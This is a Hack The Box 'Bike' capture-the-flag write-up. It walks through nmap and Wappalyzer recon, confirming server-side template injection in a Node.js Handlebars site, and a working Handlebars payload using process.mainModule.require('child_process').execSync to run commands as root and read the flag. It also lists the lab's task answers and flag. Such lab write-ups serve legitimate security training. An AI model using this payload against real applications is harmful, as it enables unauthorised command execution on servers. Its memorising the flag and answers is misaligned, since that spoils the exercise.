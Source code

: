 # Bike
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Bike 
* Topic: [[SMB]] [[Javascript]] [[SSTI]] [[]]
* Difficulty: Very easy
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high. 
 - **22,80**
2. What software is running the service listening on the http/web port identified in the first question? 
- **node.js**
3. What is the name of the Web Framework according to Wappalyzer? 
- **express**
4. What is the name of the vulnerability we test for by submitting {{7*7}}?
- **Server Side Template Injection**
5. What is the templating engine being used within Node.JS?
- **Handlebars**
6. What is the name of the BurpSuite tab used to encode text? 
- **decoder**
7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? 
- **URL**
8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? 
- **require**
9. What variable is the name of the top-level scope in Node.JS? 
- **Global**
10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user? 
 - **root**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.97.64 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 18:19 EDT
Nmap scan report for 10.129.97.64
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

It's hosting ssh on port 22 and a web interface on port 80. Upon inspection, the web page is under construction. We can input an e-mail address and get updates on its progress. If we do so, we get a message back containing the e-mail we gave as input.

![](./attachments/Pasted%20image%2020220416012808.png)

This might be vulnerable to multiple kinds of attack.

We can try to find out more about the site using the browser extension called Wappalyzer.

![](./attachments/Pasted%20image%2020220416160703.png)

Like nmap, this extension confirms that the site is written in Node.js and that the web framework is Express.  

Since Node.js (and Python) websites often use template engines to display information to their users, they are also often vulnerable to SSTI attacks. Therefore, we will try to explore this path further.

[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) provides some great information on how to exploit multiple different types of template engines.

Now we need to find out if the site is indeed vulnerable. We would also like to find out which template engine is being used so we in the end can craft a payload for it.

According to this image from the article, we can follow the tree structure to try and find out what engine is running.

![](./attachments/Pasted%20image%2020220416170535.png)

First, we will submit `${7*7}`. It doesn't get executed though and is just reflected back at us like the e-mail address.

![](./attachments/Pasted%20image%2020220416171325.png)

Therefore, `{{7*7}}` is next in line. When submitted, we get an error. 

This is not bad at all, though. Clearly, our input got interpreted instead of just being reflected back a us. This means that we just confirmed that the site *is* vulnerable to SST injections.

Furthermore, the error message provides us with some valuable information. Handlebars are being used as the Template Engine, and it is running as root.

![](./attachments/Pasted%20image%2020220416014612.png)

We need to try some different inputs, Burp Suite's repeater function can make this a lot easier.

Right click anywhere in the background of the intercepted request, then repeater.

![](./attachments/Pasted%20image%2020220416174154.png)

In the repeater tab we can now see the requests, if we click send we can see the server response on the right side of the window.

At the bottom of our request, we can see the input we made, although a bit distorted due to URL encoding.

![](./attachments/Pasted%20image%2020220416174858.png)

In the [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) article there is a Handlebars section, in it, we find a payload.

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return require('child_process').exec('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```

This looks very complicated, but we will only really be focusing on the following line, the rest is just 'delivery' code.

`{{this.push "return require('child_process').exec('whoami');"}}`

It tries to execute the `whoami` command on the server.

Before sending the payload, though, we need to encode it in URL encoding. With Burp's decode feature, can do this in seconds.

![](./attachments/Pasted%20image%2020220416180907.png)

Paste the URL encoding into the request.

![](./attachments/Pasted%20image%2020220416181027.png)

And send it.

We receive an error message back.

![](./attachments/Pasted%20image%2020220416183034.png)

Require is not defined. It means that we cannot use require in our injection. Thankfully, according to the [documentation](https://nodejs.org/api/globals.html) on Node.js there might be a `process` object available. 

We need to edit our line to:

`{{this.push "return process;"}}`

Then re-encode and send like before.

This time we don't get an error.

![](./attachments/Pasted%20image%2020220416184411.png)

Great, the `[object process]` has been returned. This is handling the current Node.js process. We can try to load a module through it, possibly allowing us to use require again. We will utilize the `'child_process'` module since it has access to executing system commands. We will edit our line to:

`{{this.push "return process.mainModule.require('child_process');"}}`

![](./attachments/Pasted%20image%2020220416232954.png)

It worked, the command executed without errors. 

Now we can try and execute an actual command like `whoami` by changing the line to:

`{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`

![](./attachments/Pasted%20image%2020220416233853.png)

That's it! We got root. Now we just need to rinse and repeat for every command we want to execute in order to find the flag.

`{{this.push "return process.mainModule.require('child_process').execSync('cd .. ; cat flag.txt');"}}`

Did it. 

![](./attachments/Pasted%20image%2020220416235105.png)


**Flag:** `6b258d726d287462d60c103d0142a81c`

---
**Tags:** [[HackTheBox]]